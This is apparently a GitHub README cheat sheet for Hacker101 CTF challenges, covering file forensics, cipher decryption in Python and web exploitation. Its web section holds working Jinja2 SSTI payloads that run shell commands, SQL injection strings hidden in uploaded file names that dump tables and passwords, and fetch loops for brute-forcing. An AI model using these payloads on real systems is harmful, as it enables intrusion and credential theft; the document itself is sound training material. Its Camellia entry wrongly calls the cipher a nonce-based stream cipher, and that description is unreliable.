

> [!IMPORTANT]
> nothing. i just like this purple thingy :D

# Hacker101 CTF Walkthrough
answering challenges on [hacker101.com](https://ctf.hacker101.com/)

# [useful guides below the screenshot](#useful-guides-d)



## file structure

- 📁 TODO: no folders yet :D

___
<br><br>

# useful guides :D

- [**Forensics**](#forensics)
  - [extracting texts from a file](#extracting-texts-from-a-file)
- [**Cryptography**](#cryptography)
  - [useful links for ciphers](#useful-links-for-ciphers)
  - [common ciphers identity](#common-ciphers-identity)
  - [Python libraries (pyca.cryptography)](#python-libraries-pycacryptography)
    - [hazmat.primitives.ciphers](#hazmatprimitivesciphers)
- [**Web Exploit**](#web-exploit)
  - [inspect (chrome)](#inspect-chrome)
  - [If the website has...](#if-the-website-has)
    - [1. Input and submit button](#1-input-and-submit-button)
    - [2. File upload 'Choose File' button](#2-file-upload-choose-file-button)
  - [Browser console](#browser-console)
    - [1. modifying elements](#1-modifying-elements)
    - [2. Fetch](#2-fetch)
    - [3. Looping](#3-looping)

<br>

# FORENSICS

## extracting texts from a file

- **strings:** pulls all text out of a file.
```bash
strings file.png
```
- **strings + grep:** filter a word ex. `A1S{`.
```bash
strings file.png | grep "A1S{"
```
- **xxd:** view the raw hex dump of a file.
```bash
xxd file.bin
```
- **xxd:** filter hex of a word ex. `A1S{`
```bash
xxd file.bin | grep -i "41 31 53 7b"
```
- **exiftool:** view hidden metadata.
```bash
exiftool image.jpg
```
- **binwalk:** checks if files are hidden inside other files.<br> the `-e` flag extracts them automatically.
```bash
binwalk -e image.jpg
```

<br>

# CRYPTOGRAPHY

## useful links for ciphers
- identify ciphers - [dcode.fr/cipher-identifier](https://www.dcode.fr/cipher-identifier)
- decode most ciphers - [CyberChef](https://gchq.github.io/CyberChef/)
- decode MD5 or SHA, specifically - [crackstation.net](https://crackstation.net/)

> **note:** in **cyberchef**, search for the **magic** block. drag it in to automatically identify and decode pasted text.

---

## common ciphers identity
- `0110011001101100` - **binary**
- `666c61677b7d` - **hexadecimal / hex** (0-9, a-f)
- `ZmxhZ3tzZWNyZXR9==` - **base64** (often ends in `=`)
- `..-. .-.. .- --.` - **morse code**
- `+++++[>+++++<-]>++.` - **brainfuck**
- `AABAB BAAAA` - **baconian**
- `dv wlmg gzop zylfg urtsg xofy` - **atbash**
- `H6 5@?E E2=< 23@FE 7:89E 4=F3` - **rot47**
- etc..

---

## Python libraries (pyca.cryptography)
create a python program with the cryptography library <br>if u cant find a decoder for specific cipher.
```bash
pip install cryptography 
```
### hazmat.primitives.ciphers
No matter the cipher, the pattern is always exactly three steps:
1. **Define the Cipher:** `Cipher(algorithms.NAME(key), modes.MODE(iv/nonce))`
2. **Create the Decryptor:** `decryptor = cipher.decryptor()`
3. **Decrypt & Finalize:** `decryptor.update(ciphertext) + decryptor.finalize()`
---

### **1. AES with CBC Mode**
CBC mode require an IV and usually require removing padding like PKCS7 after decryption.

```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding

k = "e30a5b292fdc400a8e942c406a5eab91" # 16-byte key (Hex)
iv = "00000000000000000000000000000000" # 16-byte IV (Hex)
c = "your_hex_ciphertext_here"

cipher = Cipher(algorithms.AES(bytes.fromhex(k)), modes.CBC(bytes.fromhex(iv)))
decryptor = cipher.decryptor()

padded_data = decryptor.update(bytes.fromhex(c)) + decryptor.finalize()

unpadder = padding.PKCS7(128).unpadder() # 128-bit block size for AES
answer = unpadder.update(padded_data) + unpadder.finalize()

print(answer.decode('utf-8', errors='ignore'))
```

### **2. ChaCha20**
Stream ciphers do not use block modes like ECB or CBC, and they do not require padding. They use a nonce instead.

```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms

k = "your_32_byte_key_in_hex_here"      # 32-byte key
nonce = "your_16_byte_nonce_in_hex"     # 16-byte nonce
c = "your_hex_ciphertext_here"

cipher = Cipher(algorithms.ChaCha20(bytes.fromhex(k), bytes.fromhex(nonce)), mode=None)
decryptor = cipher.decryptor()

answer = decryptor.update(bytes.fromhex(c)) + decryptor.finalize()

print(answer.decode('utf-8', errors='ignore'))
```

### **3. Camellia**
Stream ciphers do not use block modes like ECB or CBC, and they do not require padding. They use a nonce instead.

```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes

k = "e30a5b292fdc400a8e942c406a5eab91"
c = "66b6c18775c1db96d9ec22f32d422a876524f917774d17c2d639a59787e53fbd"

cipher = Cipher(algorithms.Camellia(bytes.fromhex(k)), modes.ECB())
decryptor = cipher.decryptor()

answer = decryptor.update(bytes.fromhex(c)) + decryptor.finalize()
print(answer.decode('utf-8', errors='ignore'))
```
Here are the minimal Python implementations for the remaining ciphers on your list using `cryptography.hazmat.primitives.ciphers`. 

> [!IMPORTANT]
> All examples below use ECB mode.

### **4. AES / AES128**
Requires a 16-byte (32 hex characters) key.

```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes

k = "00112233445566778899aabbccddeeff" # 16-byte key for AES-128
c = "your_hex_ciphertext_here"

cipher = Cipher(algorithms.AES(bytes.fromhex(k)), modes.ECB())
decryptor = cipher.decryptor()

answer = decryptor.update(bytes.fromhex(c)) + decryptor.finalize()
print(answer.decode('utf-8', errors='ignore'))
```

### **5. AES256**
Requires a 32-byte (64 hex characters) key.

```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes

k = "00112233445566778899aabbccddeeff00112233445566778899aabbccddeeff" # 32-byte key for AES-256
c = "your_hex_ciphertext_here"

cipher = Cipher(algorithms.AES(bytes.fromhex(k)), modes.ECB())
decryptor = cipher.decryptor()

answer = decryptor.update(bytes.fromhex(c)) + decryptor.finalize()
print(answer.decode('utf-8', errors='ignore'))
```

### **6. TripleDES (3DES)**
Requires an 8-byte (DES - 1 key), 16-byte (2-key 3DES), or 24-byte (3-key 3DES) key.

```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes

k = "0123456789abcdef0123456789abcdef" # 16-byte key for 2-key 3DES
c = "your_hex_ciphertext_here"

cipher = Cipher(algorithms.TripleDES(bytes.fromhex(k)), modes.ECB())
decryptor = cipher.decryptor()

answer = decryptor.update(bytes.fromhex(c)) + decryptor.finalize()
print(answer.decode('utf-8', errors='ignore'))
```

### **7. SM4**
The Chinese standard block cipher. Requires a 16-byte (32 hex characters) key.

```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes

k = "0123456789abcdef0123456789abcdef" # 16-byte key for SM4
c = "your_hex_ciphertext_here"

cipher = Cipher(algorithms.SM4(bytes.fromhex(k)), modes.ECB())
decryptor = cipher.decryptor()

answer = decryptor.update(bytes.fromhex(c)) + decryptor.finalize()
print(answer.decode('utf-8', errors='ignore'))
```

<br><br>

# WEB EXPLOIT

> [!NOTE]
> google this: SSTI, SQLi, IDOR, XSS

## inspect (chrome)
always do this first.<br>
press `ctrl+shift+i` to inspect. 

- **check html, css, js:** <br>click "Sources". 
- - always check for `static/` folder.
- **cookies, storages:** <br>click "Application" (click `>>` to see). 
- - look on the cookies and texts with storage in it.

<br>

## If the website has...

### 1. Input and submit button
for login, search, or anything that processes input.<br><br>
**SSTI (server-side template injection)**

submit this to see if it works with JINJA2 (Python):
```bash
{{ 7*7 }}
```
if it returns `49`, good job. u can now try submitting these to execute [Bash](https://www.w3schools.com/bash/bash_commands.php) commands:
```bash
{{ lipsum.__globals__['os'].popen('PUT BASH COMMAND HERE').read() }}
```
for example:
- **list files (including hidden ones):**
```bash
{{ lipsum.__globals__['os'].popen('ls -a').read() }}
```
- **read a file:**
```bash
{{ lipsum.__globals__['os'].popen('cat idk.txt').read() }}
```
- **create or write a file:**
```bash
{{ lipsum.__globals__['os'].popen('echo "hello world" > idk.txt').read() }}
```
- **find a file (search for `fl` in filename):**
```bash
{{ lipsum.__globals__['os'].popen('find / -name "fl*"').read() }}
```
- **read a loaded backend variable:**
```bash
{{ url_for.__globals__['FLAG'] }}
```

---

### 2. File upload 'Choose File' button
**SQLi (sql injection)**

create a file and upload it to see if it works with SQLi, name it:
```sql
' AND (SELECT 1/0);--.jpg
```
if it throws an error, good job. u can now try submitting these to execute [SQL](https://www.w3schools.com/sql/sql_syntax.asp) commands:

- **list all tables:**
```sql
' UNION SELECT name FROM sqlite_master WHERE type='table';--.jpg
```
- **display table `users` data (change it to whatever table name):**
```sql
' UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='users';--.jpg
```
- **extract the `password` (change it to whatever variable name):**
```sql
' UNION SELECT password FROM users;--.jpg
```
- **extract the `password` (if its limited to displaying just one, change the offset to whatever number):**
```sql
' UNION SELECT password FROM users LIMIT 1 OFFSET 0;--.jpg
```

---
<br>

## Browser console
mix and match some codes here like lego idk

### 1. modifying elements
after u look at the html when u # [inspect](#inspect) the site.

- **get an element by class (use `.`):**
```javascript
document.querySelector('.element_name');
```
- **get an element by class (use `#`):**
```javascript
document.querySelector('#element_name');
```
- **get an element without class or id (html tag + attribute `[]`):**
```javascript
document.querySelector('button[type="submit"]');
```
- **set text:**
```javascript
document.querySelector('.username').value = 'anything idk';
```
- **click an element (add `.click()`):**
```javascript
document.querySelector('.button1').click();
```
- **submit a form directly:**
```javascript
document.querySelector('.form1').submit();
```
- **reveal hidden elements (removes "display: none"):**
```javascript
document.querySelectorAll('[style*="none"]').forEach(e => e.style.display = 'block');
document.querySelectorAll('[hidden]').forEach(e => e.removeAttribute('hidden'));
```

### 2. Fetch
use `fetch` to talk to the server directly. <br>this bypasses UI restrictions.

- **send a post request:**
```javascript
fetch('/api/play', { // <-- modify this: paste the url from the network tab
    method: 'POST',  // <-- modify this: GET or POST
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ luck: 1 }) // <-- modify this: put the payload variable here ex. luck with specified value ex. 1
})
.then(res => res.json())
.then(data => console.log(data)); // this prints the server's hidden response
```

**where to find the url and variables:**

1. [inspect](#inspect-chrome) and go to the **Network** tab.
2. do some action on the website (like submit a form or click buttons).
3. a new thing on the list might show up. click it.
4. check the **Headers** tab to find the url and method. 
5. check the **Payload** tab to see the variable names.


### 3. Looping
useful for brute-forcing passwords, spamming api endpoints, or clicking elements rapidly.

- **basic loop (for fast ui actions):**
```javascript
for (let i = 0; i < 100; i++) { // loop 100 times
    // do anything here, for example:
    document.querySelector('button').click();
}
```

- **async loop (for fetch):**<br>
**when to use:** use this anytime you put `fetch` in a loop. if you use a basic loop for `fetch`, it fires all requests at the exact same millisecond, which can crash your browser or trigger server blocks.<br>
**how it works:** `async` allows you to use the `await` keyword.<br> `await` forces the code to pause and wait for the server's reply before starting the next loop.

```javascript
async function spam() {
    for (let i = 0; i < 10; i++) { // loops 10 times
        
        let res = await fetch('/api/guess', { 
            method: 'POST',
            headers: { 'Content-Type': 'application/json' },
            body: JSON.stringify({ guess: i }) // sends guess: 0, then guess: 1, etc.
        });
        
        // 'await' makes it pause here until the server replies
        let data = await res.json();
        console.log(`guess ${i}:`, data);
    }
}
spam(); // this triggers the function to start
```
